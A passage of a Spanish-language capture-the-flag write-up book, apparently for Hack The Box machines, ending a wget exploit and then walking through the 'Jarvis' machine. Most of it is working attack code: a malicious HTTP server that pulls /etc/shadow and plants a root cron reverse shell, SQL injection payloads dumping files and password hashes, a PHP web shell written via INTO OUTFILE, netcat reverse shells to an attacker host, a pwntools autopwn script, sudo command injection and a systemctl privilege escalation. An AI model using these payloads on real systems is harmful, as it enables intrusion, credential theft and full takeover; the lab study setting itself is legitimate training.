        \VariableTok{self}\NormalTok{.wfile.write(}\StringTok{"Nothing to see here..."}\NormalTok{)}
        \ControlFlowTok{return}

    \BuiltInTok{print} \StringTok{"Uploading .wgetrc via ftp redirect vuln. It should land in /root }\CharTok{\textbackslash{}n}\StringTok{"}
    \VariableTok{self}\NormalTok{.send_response(}\DecValTok{301}\NormalTok{)}
\NormalTok{    new_path }\OperatorTok{=} \StringTok{'}\SpecialCharTok\NormalTok{(}\StringTok{'ftp://anonymous@}\SpecialCharTok{%s}\StringTok{:}\SpecialCharTok\NormalTok{(FTP_HOST, FTP_PORT) )}
    \BuiltInTok{print} \StringTok{"Sending redirect to }\SpecialCharTok\NormalTok{(new_path)}
    \VariableTok{self}\NormalTok{.send_header(}\StringTok{'Location'}\NormalTok{, new_path)}
    \VariableTok{self}\NormalTok{.end_headers()}

\KeywordTok{def}\NormalTok{ do_POST(}\VariableTok{self}\NormalTok{):}
    \CommentTok{# In here we will receive extracted file and install a PoC cronjob}

    \BuiltInTok{print} \StringTok{"We have a volunteer requesting "} \OperatorTok{+} \VariableTok{self}\NormalTok{.path }\OperatorTok{+} \StringTok{" by POST :)}\CharTok{\textbackslash{}n}\StringTok{"}
    \ControlFlowTok{if} \StringTok{"Wget"} \KeywordTok{not} \KeywordTok{in} \VariableTok{self}\NormalTok{.headers.getheader(}\StringTok{'User-Agent'}\NormalTok{):}
    \BuiltInTok{print} \StringTok{"But it's not a Wget :( }\CharTok{\textbackslash{}n}\StringTok{"}
        \VariableTok{self}\NormalTok{.send_response(}\DecValTok{200}\NormalTok{)}
        \VariableTok{self}\NormalTok{.end_headers()}
        \VariableTok{self}\NormalTok{.wfile.write(}\StringTok{"Nothing to see here..."}\NormalTok{)}
        \ControlFlowTok{return}

\NormalTok{    content_len }\OperatorTok{=} \BuiltInTok{int}\NormalTok{(}\VariableTok{self}\NormalTok{.headers.getheader(}\StringTok{'content-length'}\NormalTok{, }\DecValTok{0}\NormalTok{))}
\NormalTok{    post_body }\OperatorTok{=} \VariableTok{self}\NormalTok{.rfile.read(content_len)}
    \BuiltInTok{print} \StringTok{"Received POST from wget, this should be the extracted /etc/shadow file: }\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{---[begin]---}\CharTok{\textbackslash{}n}\StringTok{ }\SpecialCharTok\NormalTok{ (post_body)}

    \BuiltInTok{print} \StringTok{"Sending back a cronjob script as a thank-you for the file..."}
    \BuiltInTok{print} \StringTok{"It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"}
    \VariableTok{self}\NormalTok{.send_response(}\DecValTok{200}\NormalTok{)}
    \VariableTok{self}\NormalTok{.send_header(}\StringTok{'Content-type'}\NormalTok{, }\StringTok{'text/plain'}\NormalTok{)}
    \VariableTok{self}\NormalTok{.end_headers()}
    \VariableTok{self}\NormalTok{.wfile.write(ROOT_CRON)}

    \BuiltInTok{print} \StringTok{"}\CharTok{\textbackslash{}n}\StringTok{File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) }\CharTok{\textbackslash{}n}\StringTok{"}

    \ControlFlowTok{return}

\NormalTok{HTTP_LISTEN_IP }\OperatorTok{=} \StringTok{'0.0.0.0'}
\NormalTok{HTTP_LISTEN_PORT }\OperatorTok{=} \DecValTok{80}
\NormalTok{FTP_HOST }\OperatorTok{=} \StringTok{'10.10.10.55'}
\NormalTok{FTP_PORT }\OperatorTok{=} \DecValTok{21}

\NormalTok{ROOT_CRON }\OperatorTok{=} \StringTok{"* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f }\CharTok{\textbackslash{}n}\StringTok{"}

\NormalTok{handler }\OperatorTok{=}\NormalTok{ SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)}

\BuiltInTok{print} \StringTok{"Ready? Is your FTP server running?"}

\NormalTok{sock }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{result }\OperatorTok{=}\NormalTok{ sock.connect_ex((FTP_HOST, FTP_PORT))}
\ControlFlowTok{if}\NormalTok{ result }\OperatorTok{==} \DecValTok{0}\NormalTok{:}
\BuiltInTok{print} \StringTok{"FTP found open on }\SpecialCharTok{%s}\StringTok{:}\SpecialCharTok\NormalTok{ (FTP_HOST, FTP_PORT)}
\ControlFlowTok{else}\NormalTok{:}
\BuiltInTok{print} \StringTok{"FTP is down :( Exiting."}
\NormalTok{exit(}\DecValTok{1}\NormalTok{)}

\BuiltInTok{print} \StringTok{"Serving wget exploit on port }\SpecialCharTok\NormalTok{ HTTP_LISTEN_PORT}

\NormalTok{handler.serve_forever()}
\end{Highlighting}
\end{Shaded}
\item
  habrimos en una ventana el puerto 21 para el ftp

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{authbind}\NormalTok{ python -m pyftpdlib -p21 -w}
\end{Highlighting}
\end{Shaded}
\item
  en la otra ventana lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{authbind}\NormalTok{ python wget-exploit.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

en la maquina de atacante nos ponemos en escucha por el puerto 443 y esperamos que nos entable esta Coneccion.

\texttt{whoami} -\textgreater{} root ;)

\hypertarget{jarvis}{%
\chapter*{Jarvis}\label{jarvis}}
\addcontentsline{toc}{chapter}{Jarvis}

\hypertarget{introduccion-24}{%
\section*{Introduccion}\label{introduccion-24}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 18/08/2021 se llama Jarvis.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=OPDexy66TD0}{\includegraphics{https://img.youtube.com/vi/OPDexy66TD0/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-24}{%
\section*{Enumeracion}\label{enumeracion-24}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-24}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-24}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-24}{%
\subsubsection*{Ping}\label{ping-24}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.143}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-24}{%
\subsubsection*{Nmap}\label{nmap-24}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.143}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.143 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80,64999, 10.10.10.143 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
64999 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-10}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-10}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-18}{%
\subsubsection*{Whatweb}\label{whatweb-18}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.143}
\end{Highlighting}
\end{Shaded}

Vemos un dominio \texttt{logger.htb} pero poco mas. Añadimo el dominio a nuestro \texttt{/etc/hosts}

\hypertarget{http-enum-6}{%
\subsubsection*{http-enum}\label{http-enum-6}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.143 -oN webScan}
\end{Highlighting}
\end{Shaded}

Vemos que hay un \texttt{/phpmyadmin}

\hypertarget{analyzando-la-web-con-firefox}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Es una web de un hotel donde se puede hacer reservaciones. Cuando miramos mas en profundidad, nos damos cuenta de algo que nos
llama la atencion \texttt{http://10.10.10.143/room.php?cod=6}

Si cambiamos el \textbf{cod} con numeros invalidos vemos que intenta mostrarnos algo sin mensajes de error. Vamos a comprobar si esta
vulnerable a injeccion SQL

\hypertarget{vulnerability-assessment-11}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-11}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{sql-injection}{%
\subsection*{SQL Injection}\label{sql-injection}}
\addcontentsline{toc}{subsection}{SQL Injection}

Intentamos ver si la web responde a un ordenamiento de datos para ver si es vulnerable a Injeccion SQL:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 1 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 2 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 3 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 4 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 5 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 6 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 8 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 order by 9 -- -}
\end{Highlighting}
\end{Shaded}

Aqui no vemos nada. Intentamos ver con un union select si podemos enumerar las columnas

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,3 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,3,4 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7 -- -}
\end{Highlighting}
\end{Shaded}

Cuando acemos una selection de las 7 columnas, podemos ver en la web que nos reporta estas etiquetas en la pagina.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Jarvis-union-select} \caption{SQL Injection Union select}\label{fig:unnamed-chunk-57}
\end{figure}

Aqui vemos que podemos injectar SQL en las columnas \textbf{5 - 2 - 3 - 4}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,database(),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,version(),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,user(),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(}\StringTok{"/etc/passwd"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTAS: Si la web no deja incorporar String como en el methodo load\_file, se puede transformar el String \texttt{/etc/passwd} en hexadecimal y colocarlo ahi. Haciendo
un \texttt{echo\ "/etc/passwd"\ \textbar{}\ tr\ -d\ \textquotesingle{}\textbackslash{}n\textquotesingle{}\ \textbar{}\ xxd\ -ps} -\textgreater{} 2f6574632f706173737764 y ponerlo en la web \texttt{1,2,load\_file(0x2f6574632f706173737764),4,5,6,7}
\end{quote}

Aqui vemos que tenemos capacidad de lectura sobre ficheros internos passando por la Injeccion SQL. Continuamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(}\StringTok{"/proc/net/tcp"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(}\StringTok{"/proc/net/fib_trie"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\end{Highlighting}
\end{Shaded}

Esto no nos reporta nada. Bueno, ya sabemos que existen 2 usuarios en la maquina:

\begin{itemize}
\tightlist
\item
  root
\item
  pepper
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(}\StringTok{"/home/pepper/.ssh/id_rsa"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(}\StringTok{"/home/pepper/user.txt"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6,7 -- -}
\end{Highlighting}
\end{Shaded}

Como vemos que no se puede avanzar mucho con la LFI, vamos a tirar mas del analysis de la base de datos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata -- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 0,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 1,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 2,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 3,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema=}\StringTok{"hotel"}\NormalTok{ limit 0,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema=}\StringTok{"hotel"}\NormalTok{ limit 1,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema=}\StringTok{"hotel"}\NormalTok{ and table_name=}\StringTok{"room"}\NormalTok{ limit 0,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema=}\StringTok{"hotel"}\NormalTok{ and table_name=}\StringTok{"room"}\NormalTok{ limit 1,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema=}\StringTok{"hotel"}\NormalTok{ and table_name=}\StringTok{"room"}\NormalTok{ limit 2,1-- -}
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(column_name),}\ExtensionTok{4}\NormalTok{,5,6,7 from information_schema.columns where table_schema=}\StringTok{"hotel"}\NormalTok{ and table_name=}\StringTok{"room"}\NormalTok{-- -}
\end{Highlighting}
\end{Shaded}

\hypertarget{aprovechando-de-la-mysql-db}{%
\subsubsection*{Aprovechando de la mysql db}\label{aprovechando-de-la-mysql-db}}
\addcontentsline{toc}{subsubsection}{Aprovechando de la mysql db}

Como existe una tabla my\_sql probamos a ver si encontramos usuarios y contraseña para esta base de datos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod-1 union select 1,2,group_concat(User,0x3A,Password),}\ExtensionTok{4}\NormalTok{,5,6,7 from mysql.user -- -}
\end{Highlighting}
\end{Shaded}

Vemos que existe el usuario DBAdmin con un hash de contraseña, si tiramos de Rainbow Tables como \href{https://crackstation.net/}{CrackStation} vemos la contraseña
en texto claro.

Teniendo esto en cuenta, podriamos aprovechar de connectarnos a la routa \texttt{/phpmyadmin/} para lanzar commandos.

\hypertarget{using-sql-injection-para-crear-ficheros}{%
\subsubsection*{Using SQL Injection para crear ficheros}\label{using-sql-injection-para-crear-ficheros}}
\addcontentsline{toc}{subsubsection}{Using SQL Injection para crear ficheros}

Mirando las columnas de la tabla \textbf{hotel}, nos damos cuenta que no hay informaciones relevante como usuarios o contraseña. Aqui pensamos que los
tiros no van para el mismo camino. Miramos si tenemos capacidad de escritura.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod-1 union select 1,2,}\StringTok{"Hola esto es una prueba"}\NormalTok{,4,5,6,7 into outfile }\StringTok{"/var/www/html/prueba.txt"}\NormalTok{ -- -}
\end{Highlighting}
\end{Shaded}

Aqui intentamos crear un fichero prueba.txt que creamos en una de las routas mas communes, y si lanzamos el commando y que navegamos por
\texttt{http://10.10.10.143/prueba.txt} vemos el contenido.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod-1 union select 1,2,}\StringTok{"<?php system('whoami'); ?>"}\NormalTok{,4,5,6,7 into outfile }\StringTok{"/var/www/html/prueba.php"}\NormalTok{ -- -}
\end{Highlighting}
\end{Shaded}

Aqui vemos www-data como usuario. Vamos a intentar ganar accesso al systema.

\begin{quote}
{[} ! {]} NOTAS: todo esto se podria hacer de la misma manera desde el panel \texttt{phpmyadmin}
\end{quote}

\hypertarget{vuln-exploit-gaining-access-11}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-11}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{s4vishell-desde-un-sql-injection}{%
\subsection*{S4vishell desde un SQL Injection}\label{s4vishell-desde-un-sql-injection}}
\addcontentsline{toc}{subsection}{S4vishell desde un SQL Injection}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Creamos la s4vishell.php desde el SQL Injection

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/room.php?cod-1 union select 1,2,}\StringTok{"<?php system(}\VariableTok{$_REQUEST[}\StringTok{'cmd'}\VariableTok{]}\StringTok{); ?>"}\NormalTok{,4,5,6,7 into outfile }\StringTok{"/var/www/html/s4vishell.php"}\NormalTok{ -- -}
\end{Highlighting}
\end{Shaded}
\item
  Vamos a la pagina \texttt{http://10.10.10.143/s4vishell.php}
\item
  Probamos commandos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/s4vishell.php?cmd=id}
\ExtensionTok{http}\NormalTok{://10.10.10.143/s4vishell.php?cmd=hostname -I}
\ExtensionTok{http}\NormalTok{://10.10.10.143/s4vishell.php?cmd=ps -faux}
\ExtensionTok{http}\NormalTok{://10.10.10.143/s4vishell.php?cmd=which nc}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos una reverse SHELL

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.143/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.7 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado accesso al systema.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami} 

\OperatorTok{>}\ExtensionTok{www-data}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-14}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-14}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{autopwn-in-python}{%
\subsection*{Autopwn in python}\label{autopwn-in-python}}
\addcontentsline{toc}{subsection}{Autopwn in python}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ time }
\ImportTok{import}\NormalTok{ threading}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo..}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl_C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{create_file }\OperatorTok{=} \StringTok{'''http://10.10.10.143/room.php?cod=-1 union select 1,2,"<?php system('nc -e /bin/bash 10.10.14.7 443'); ?>",4,5,6,7 into outfile "/var/www/html/reverse.php"-- -'''}
\NormalTok{exec_file }\OperatorTok{=} \StringTok{"http://10.10.10.143/reverse.php"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ request.get(create_file)}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ request.get(exec_file)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}
    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}
\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

\hypertarget{user-pivoting-al-usuario-pepper}{%
\subsection*{User pivoting al usuario pepper}\label{user-pivoting-al-usuario-pepper}}
\addcontentsline{toc}{subsection}{User pivoting al usuario pepper}

Hemos podido comprobar que no podiamos leer el fichero \texttt{user.txt} siendo el usuario \texttt{www-data}. Tendremos que convertirnos en el usuario
\textbf{pepper} antes de intentar rootear la maquina.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos ejecutar el script \texttt{/var/www/Admin-Utilities/simpler.py} como el usuario \textbf{pepper} sin proporcinar contraseña.

Si lanzamos el script con el commando \texttt{sudo\ -u\ pepper\ /var/www/Admin-Utilities/simpler.py} vemos que es una utilidad que lanza un ping a maquinas
definidas por el commando \texttt{-p}.

si nos ponemos en escucha por trazas \textbf{ICMP} con el commando \texttt{tcpdump\ -i\ tun0\ icmp\ -n} y que lanzamos el script:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u pepper /var/www/Admin-Utilities/simpler.py -p}

\OperatorTok{>} \ExtensionTok{10.10.14.7}
\end{Highlighting}
\end{Shaded}

Recibimos la traza \textbf{ICMP}.

Intentamos ver si podemos injectar commandos con el script.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u pepper /var/www/Admin-Utilities/simpler.py -p}

\OperatorTok{>} \ExtensionTok{10.10.14.}\VariableTok{$(}\BuiltInTok{echo}\NormalTok{ 7}\VariableTok{)}
\end{Highlighting}
\end{Shaded}

Aqui tambien recibimos la traza \textbf{ICMP} lo que significa que el programa interpreta codigo.

Si nos ponemos en escucha por el puerto 443 con \texttt{nc\ -nlvp\ 443} y que le ponemos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u pepper /var/www/Admin-Utilities/simpler.py -p}

\OperatorTok{>} \VariableTok{$(}\ExtensionTok{nc}\NormalTok{ -e /bin/bash 10.10.14.7 443}\VariableTok{)}
\end{Highlighting}
\end{Shaded}

No funcciona. Si miramos el codigo fuente de script en python, vemos que hay caracteres que son considerados como invalidos.
Uno de ellos es el \texttt{-}

Decidimos crearnos un fichero \texttt{reverse.sh}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{nano}\NormalTok{ reverse.sh}\KeywordTok{`}


\CommentTok{#!/bin/bash}

\ExtensionTok{nc}\NormalTok{ -e /bin/bash 10.10.14.7 443}
\end{Highlighting}
\end{Shaded}

Le damos derechos de ejecucion y lanzamos el script una vez mas.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u pepper /var/www/Admin-Utilities/simpler.py -p}

\OperatorTok{>} \VariableTok{$(}\FunctionTok{bash}\NormalTok{ /tmp/reverse.sh}\VariableTok{)}
\end{Highlighting}
\end{Shaded}

Ya hemos podido entablar la conneccion como el usuario pepper y podemos ver la flag.

\hypertarget{tratamiento-de-la-tty-15}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-15}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-10}{%
\section*{Privilege Escalation}\label{privilege-escalation-10}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-19}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-19}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home/pepper}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /Web}
\BuiltInTok{cd}\NormalTok{ /Logs}
\FunctionTok{cat}\NormalTok{ 10.10.14.7.txt}
\end{Highlighting}
\end{Shaded}

Aqui vemos que nos a loggeado toda la Injeccion SQL.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Vemos que systemctl es SUID y que tiene proprietario root

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd} 
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}
\FunctionTok{cp}\NormalTok{ /tmp/reverse.sh privesc.sh}
\end{Highlighting}
\end{Shaded}

Aqui nos vamos a crear un systemctl service file -\textgreater{} \texttt{nano\ privesc.service}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{Unit}\NormalTok{]}
\VariableTok{Description=}\NormalTok{EEEEEEEe}

\NormalTok{[}\ExtensionTok{Service}\NormalTok{]}
\VariableTok{ExecStart=}\NormalTok{/home/pepper/privesc/privesc.sh}

\NormalTok{[}\ExtensionTok{Install}\NormalTok{]}
\VariableTok{WantedBy=}\NormalTok{multi-user.target}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
